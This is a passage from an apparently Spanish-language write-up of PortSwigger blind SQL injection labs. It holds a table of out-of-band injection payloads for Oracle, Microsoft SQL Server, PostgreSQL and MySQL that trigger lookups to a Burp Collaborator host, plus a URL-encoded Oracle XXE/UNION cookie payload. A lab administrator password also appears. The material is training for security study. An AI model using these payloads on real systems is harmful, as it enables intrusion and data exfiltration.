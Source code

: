 filtrando por el tiempo de respuesta y ordenando se tiene la siguiente contraseña:

|user|password|
|:----:|:----:|
|administrator|267cmlbya2uj27mmvcl3|

inicias sesion como administrator y ya resuelto el lab.


### Blind SQL injection with out-of-band interaction

En este ejercicio la inyeccion esta en la cookie **trackingID** y podemos  desencadenar interacciones fuera de banda con un dominio externo. Para ello haremos uso de **Burp Collaborator**

Podemos probar los siguientes payloads:

|DBMS|PAYLOAD|
|:-----:|:-----:|
|Oracle|La siguiente técnica aprovecha una vulnerabilidad de entidad externa XML ( [XXE](https://portswigger.net/web-security/xxe) ) para activar una búsqueda de DNS. Se ha parcheado la vulnerabilidad, pero existen muchas instalaciones de Oracle sin parche: `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`  La siguiente técnica funciona en instalaciones de Oracle con parches completos, pero requiere privilegios elevados: `SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')`|
|Microsoft|`exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'`|
|PostgreSQ|`copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'`|
|MySQL|Las siguientes técnicas funcionan solo en Windows: `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')` `SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`|

Para nuestro caso funciono el de **Oracle**

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//8x6ws4fh2vho10965mty4fkjhan1bq.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--;
```

![foto](../Portswigger%20images/SQLi37.png)

y se resuelve el laboratorio.

### Blind SQL injection with out-of-band data exfiltration

Es el mismo caso del anterior ejercicio pero con exfiltracion de datos, debemos obtene la contraseña del usuario administrador e iniciar sesion. Podemos probar los siguientes payloads:
